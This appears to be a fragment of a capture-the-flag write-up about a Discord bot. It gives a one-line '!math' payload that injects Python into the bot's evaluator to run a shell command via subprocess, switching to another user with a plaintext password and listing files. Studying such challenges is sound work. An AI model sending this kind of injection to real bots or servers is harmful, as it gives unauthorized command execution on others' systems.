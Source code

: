 After becoming admin, send the following command in a Discord server with the bot:
```python
!math __import__("subprocess").check_output("echo cherry | su - norm -c 'cd /home/norm && ls' 2>&1", shell=True)
```
